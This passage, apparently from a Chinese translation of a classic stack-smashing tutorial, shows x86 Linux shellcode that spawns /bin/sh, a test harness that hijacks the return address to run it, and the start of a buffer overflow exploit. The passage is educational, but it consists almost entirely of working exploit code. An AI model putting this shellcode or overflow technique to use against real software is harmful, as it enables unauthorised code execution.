 我们改进的代码如下

```c
//shellcodeasm2.c
void main() { 
    __asm__(" 
            jmp	0x1f 				# 2 bytes	
            popl %esi				# 1 bytes
			movl %esi,0x8(%esi) 	# 3 bytes
            xorl %eax,%eax			# 2 bytes
			movb %eax,0x7(%esi) 	# 3 bytes
            movl %eax,0xc(%esi) 	# 3 bytes
            movb $0xb,%al 			# 2 bytes
            movl %esi,%ebx			# 2 bytes
			leal 0x8(%esi),%ecx 	# 3 bytes
            leal 0xc(%esi),%edx		# 3 bytes
			int	$0x80				# 2 bytes
			xorl %ebx,%ebx 			# 2 bytes
            movl %ebx,%eax			# 2 bytes
            inc	%eax				# 1 bytes
            int	$0x80 				# 2 bytes
            call -0x24 				# 5 bytes
            .string \"/bin/sh\"		# 8 bytes
            # 46 bytes total
            "); 
}
```

然后新的测试程序如下

```c
//testsc2.c
char shellcode[] = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" "\x80\xe8\xdc\xff\xff\xff/bin/sh";
void main() { 
    int *ret;
	ret = (int *)&ret + 2; 
    (*ret) = (int)shellcode;
}
```

```sh
[aleph1]$ gcc -o testsc2 testsc2.c 
[aleph1]$ ./testsc2 
$ exit 
[aleph1]$
```





### Writing an Exploit

让我们试着把之前的所有的东西都拼在一起。我们有**shellcode**。我们知道它一定是我们用来溢出缓冲区的字符串的一部分。我们知道必须将返回地址指向缓冲区。此示例将演示上面说的几点

```c
//overflow1.c
char shellcode[] = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" "\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main(){ 
    char buffer[96];
    int i;
    long *long_ptr = (long *) large_string;
	for (i = 0; i < 32; i++) 
        *(long_ptr + i) = (int) buffer;
```